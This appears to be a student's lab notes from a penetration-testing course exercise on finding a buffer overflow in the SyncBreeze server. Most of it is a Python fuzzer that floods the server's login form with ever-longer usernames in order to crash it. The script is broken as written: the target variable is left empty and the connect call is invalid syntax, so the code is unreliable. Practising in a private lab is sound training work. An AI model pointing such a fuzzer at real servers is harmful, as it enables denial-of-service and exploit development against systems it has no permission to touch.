 # 11.1.2 Discovering the Vulnerability
## Practice - Discovering the Vulnerability

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Build the fuzzer and replicate the SyncBreeze crash.
To start we must first build a fuzzer using python. We can use the following code to gather :
```python
#!/usr/bin/python
import socket
import time
import sys

size = 100
target = 

while(size < 2000):
  try:
    print("\nSending buffer with %s bytes" % size)
    
    inputBuffer = "A" * size
    
    content = "username=" + inputBuffer + "&password=A"

    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 10.11.0.22\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Referer: http://10.11.0.22/login\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "\r\n"
    
    buffer += content

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect((%s, 80) % (target))
    s.send(buffer)
    
    s.close()

    size += 100
    time.sleep(10)
    
  except:
    print("\nCould not connect!")
    sys.exit()
```


2.  Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?